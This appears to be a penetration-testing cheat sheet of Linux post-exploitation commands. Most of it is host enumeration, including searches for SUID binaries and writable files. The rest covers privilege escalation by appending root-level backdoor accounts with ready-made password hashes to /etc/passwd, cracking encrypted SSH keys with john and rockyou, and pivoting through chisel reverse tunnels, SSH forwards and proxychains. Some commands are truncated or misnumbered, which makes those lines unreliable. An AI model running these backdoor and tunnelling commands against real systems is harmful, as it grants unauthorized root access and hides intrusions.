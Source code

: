 ## INTERNAL RECONNAISANCE
1.  Enumerating the operating system version and architecture
`cat /etc/issue`
`cat /etc/*-release*`
`uname -a`

2. Enumerating processes and services
`ps aux`

3. Enumerating Networking Information
`ip a`
`/sbin/route`
`ss -anp`

4. Enumerating Firewall status and rules
`grep -Hs iptables /etc/*`

5. Enumerating scheduled tasks
`cat /etc/crontab`
`ls -lah /etc/cron*`

6. Enumerating installed applications and patch levels
`dpkg -l`

7. Enumerating Readable/Writable Files and Directories
`find / -writable -type d 2>/dev/null`

8. Enumerating unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`
`df -T`
`fdisk /dev/sdX -l`
`parted /dev/sdX -l`

9. Enumerating Device drivers and kernel modules
`lsmod`
`/sbin/modinfo libata`

10. Enumerating binaries that autoelevate 
`find / -perm -u=s -type f 2>/dev/null`

11. Insecure File Permissions

- CRON
`grep "CRON" /var/log/cron.log`

- /etc/passwd
`openssl passwd evil`
`echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd`

12. Finding specific folder
`find / -type d -name "dir-name-here" 2>/dev/null`

10. Port-Forwarding or SSH Tunneling

 a. ./chisel client 10.10.14.21:8080 R:631:127.0.0.1:631 -- target machine

    ./chisel server --reverse -- host machine
    
 b. ssh user@ip -D 1080 -- forward all traffics on localhost port 1080

    edit /etc/proxychains.conf, add SOCKS 127.0.0.1 1080 

    ssh user@ip -L xxxx.127.0.0.1:xxxx 

    proxychains <command>

 c.  Port forwarding multiple hosts, ssh from kali to A, from A ssh to B, and from B ssh to your kali, **NOTE: edit your proxychains foy your desired ports**
`ssh -N -R \*:5050 kali@YOURIP`

11. Find a text file 
`find / -name "network-secret.txt"`

1. Attach tmux session

 `/usr/bin/tmux -S /.devs/dev_sess`

 3. Decrypt id_rsa key with password

   `/usr/share/john/ssh2john.py id_rsa.encrypted > id_rsa_ssh2john`

   `ohn --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ssh2john`

   `penssl rsa -in hype_key_encrypted -out hype_key_decrypted`

 4. Finding SUID binaries

  `find / -perm -4000 2>/dev/null`
   
 5. Sudo privileges to run a binary or script to WRITE on file 
 -  Create a password using openssl
 ```
 openssl passwd -1 -salt qwaszx 123456
 ```
 -  Add the following to /etc/passswd
 ```
 qwaszx:$1$qwaszx$fqgpAA/cwVMPvvPGJkasj1:0:0::/root:/bin/bash
 ```
 - Add on the etc/passwd if the second command does not work
 `qwaszx:$1$qwaszx$fqgpAA/cwVMPvvPGJkasj1:1001:1001:qwaszx:/home/qwaszx:/bin/bash`
 
 6. Find writable files
 ```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

7. Creating an http server.
- php 
`php -S 0.0.0.0:8000`

- ruby
` ruby -run -e httpd . -p 9000`

- busybox
`busybox httpd -f -p 10000`



 
 